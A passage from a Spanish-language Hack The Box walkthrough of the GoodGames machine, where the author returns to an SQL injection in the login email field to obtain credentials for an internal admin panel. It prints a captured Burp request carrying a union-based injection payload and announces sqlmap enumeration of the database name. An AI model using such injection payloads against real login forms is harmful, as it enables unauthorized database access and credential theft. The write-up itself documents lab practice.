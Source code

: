 > VHOST --> internal-administration.goodgames.htb

Lo añado al vhost y accedo desde el navegador.

Al acceder me encuentro con un panel de inicio de sesión, pero no dispongo de credenciales por lo que primero he de buscarlas y lo único que se me ocurre es volver atrás... en el punto de la inyección sql en el campo del email del login.

Por lo que decido usar la herramienta sql y para ello sigo estos pasos:

* Capturo la petición con burpsuite y la guardo en un archivo.

![](/assets/images/HTB/Goodgames-HackTheBox/burp.webp)

```burp
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://goodgames.htb/signup
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://goodgames.htb
DNT: 1
Connection: close
Cookie: session=.eJw1yz0KgDAMBtC7fHMRXDN5E4kkjYX-QNNO4t3t4v7egzN29RsUObsGaOGUQWApqR7WmhgX9e0eFwKSgPaA3MxUUgWNPlearr0u9j-8Hz1GHgw.Y5Va1Q.196byvxnsltOJqreVcIHC7DrRHo
Upgrade-Insecure-Requests: 1
email=%27+union+select+1%2C2%2C3%2C4--+-&password=111111
```

* Una vez tengo la petición guarda en un archivo, ya puedo proceder, lo primero es descubrir el nombre de la base de datos.
